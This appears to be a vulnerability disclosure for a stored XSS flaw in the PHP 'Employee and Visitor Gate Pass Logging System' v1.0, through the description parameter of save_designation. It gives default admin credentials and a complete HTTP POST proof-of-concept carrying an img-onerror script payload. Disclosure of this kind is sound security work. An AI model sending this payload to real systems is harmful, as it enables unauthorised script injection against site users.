 XSS vulnerability exists in Employee and Visitor Gate Pass Logging System

official website:https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

version:v1.0

route：/employee_gatepass/classes/Master.php?f=save_designation

related code file：Master.php

related_function：save_designation()

Influence parameters：$description

#### 1.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

```
POST /employee_gatepass/classes/Master.php?f=save_designation HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------120228256038204359792201197731
Content-Length: 572
Origin: http://localhost
Connection: close
Referer: http://localhost/employee_gatepass/admin/?page=maintenance/designation
Cookie: PHPSESSID=4qlrosbs5in77v9a3o1t5174c1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------120228256038204359792201197731
Content-Disposition: form-data; name="id"

9
-----------------------------120228256038204359792201197731
Content-Disposition: form-data; name="name"

Graphic Designer
-----------------------------120228256038204359792201197731
Content-Disposition: form-data; name="description"

Graphic Designer<img src=1 onerror=alert(1)>
-----------------------------120228256038204359792201197731
Content-Disposition: form-data; name="status"

1
-----------------------------120228256038204359792201197731--

```

After successfully executing the PoC, you can observe that the malicious pop-up has occurred on the Home page accessible to regular users, indicating a successful XSS attack.

<img width="1709" alt="image" src="https://github.com/Xu-Mingming/cve/assets/172484755/787b17b8-f6e0-40e8-b98f-f122d3155b13">

